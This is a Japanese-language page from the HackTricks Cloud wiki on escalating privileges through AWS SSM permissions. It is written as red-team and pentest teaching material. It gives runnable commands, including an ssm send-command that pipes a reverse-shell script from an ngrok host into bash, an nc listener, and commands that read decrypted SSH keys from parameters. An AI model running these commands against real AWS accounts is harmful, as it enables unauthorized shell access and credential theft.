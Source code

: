 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

SSMに関する詳細情報は以下を確認してください：

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** の権限を持つ攻撃者は、Amazon SSMエージェントが実行されているインスタンスで**コマンドを実行**し、**その中で実行されているIAMロールを侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
```markdown
既に侵害されたEC2インスタンス内で特権を昇格させるためにこの技術を使用している場合、次のコマンドでローカルにrevシェルをキャプチャできます：
```
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在的な影響:** SSMエージェントが実行されているインスタンスに接続されたEC2 IAMロールへの直接的な権限昇格。

### `ssm:StartSession`

**`ssm:StartSession`** の権限を持つ攻撃者は、Amazon SSMエージェントが実行されているインスタンスで**SSHのようなセッションを開始**し、その中で実行されている**IAMロールを侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
セッションを開始するには、**SessionManagerPlugin**をインストールする必要があります: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**潜在的な影響:** SSMエージェントが実行されているインスタンスにアタッチされたEC2 IAMロールへの直接的な権限昇格。

#### ECSへの権限昇格

**ECSタスク**が**`ExecuteCommand`を有効にして実行される**と、十分な権限を持つユーザーは`ecs execute-command`を使用して**コンテナ内でコマンドを実行**できます。\
[**ドキュメント**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)によると、これは“_exec_”コマンドを開始するために使用するデバイスと、SSMセッションマネージャーを使用したターゲットコンテナとの間に安全なチャネルを作成することによって行われます。（これが機能するためにはSSMセッションマネージャープラグインが必要です）\
したがって、`ssm:StartSession`を持つユーザーは、そのオプションが有効になっているECSタスク内で**シェルを取得**できるようになります。
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**潜在的な影響:** `ExecuteCommand`が有効な実行中のタスクに添付された`ECS`IAMロールへの直接的な権限昇格。

### `ssm:ResumeSession`

**`ssm:ResumeSession`**の権限を持つ攻撃者は、**切断された**SSMセッション状態のAmazon SSMエージェントが実行されているインスタンスでSSHのようなセッションを再**開始**し、その中で実行されているIAMロールを**侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在的な影響:** SSMエージェントが実行中のインスタンスに接続されているEC2 IAMロールへの直接的な権限昇格。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

言及された権限を持つ攻撃者は、**SSMパラメータ**をリストし、**平文で読む**ことができるようになります。これらのパラメータには、SSHキーやAPIキーなどの**機密情報**が頻繁に**見つかる**ことがあります。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在的な影響:** パラメータ内の機密情報を見つける。

### `ssm:ListCommands`

この権限を持つ攻撃者は、送信されたすべての**コマンド**をリストし、そこに**機密情報**が含まれていることを期待できます。
```
aws ssm list-commands
```
**潜在的影響:** コマンドライン内の機密情報を見つける。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

これらの権限を持つ攻撃者は、送信されたすべての**コマンド**をリストし、生成された**出力を読み取る**ことができ、そこに**機密情報**が見つかることを期待します。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在的影響:** コマンドラインの出力内に機密情報を見つける。

### Codebuild

SSMを使用して、ビルド中のcodebuildプロジェクトにアクセスすることもできます：

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
